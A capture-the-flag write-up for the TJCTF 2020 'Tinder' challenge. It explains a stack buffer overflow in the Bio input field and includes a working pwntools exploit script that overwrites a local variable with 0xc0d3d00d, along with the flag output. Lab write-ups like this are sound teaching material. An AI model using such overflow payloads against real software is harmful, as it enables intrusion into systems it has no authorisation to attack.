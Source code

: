 # TJCTF 2020

## Tinder

> 25
>
> [Start swiping](tinder)!
> 
> `nc p1.tjctf.org 8002`
>
> Written by agcdragon

Tags: _pwn_ _x86_ _bof_


## Summary

Simple buffer overflow into variable to control code flow.


## Analysis

### Decompile with Ghidra

![](main.png)

The `input` function takes two parameters: buffer and length/16.  For Name (`local_28`), Username (`local_38`), Password (`local_48`), not a problem, a length of `1.0` will only read 16 bytes.  However, Bio (`local_88`) is allocated `64` bytes, yet the length parameter is `8.0` (`*16`), this can overflow into variables down stack, in particular `local_14`.

`local_14`, if set to `-0x3f2c2ff3` (`0xc0d3d00d`) will reveal the flag.

`main` function header:

![](mainh.png)

To overwrite `local_14` starting at `local_88`, just write `0x88 - 0x14` bytes followed by `0xc0d3d00d` and the flag is yours.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./tinder')
p = remote('p1.tjctf.org', 8002)

p.recvuntil('Name: ')
p.sendline('foo')
p.recvuntil('Username: ')
p.sendline('foo')
p.recvuntil('Password: ')
p.sendline('foo')
p.recvuntil('Bio: ')

payload = (0x88 - 0x14) * b'A'
payload += p32(0xc0d3d00d)
p.sendline(payload)
p.stream()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8002: Done

Registered 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xd3\xc0' to TJTinder successfully!
Searching for matches...
It's a match!
Here is your flag: tjctf{0v3rfl0w_0f_m4tch35}
```
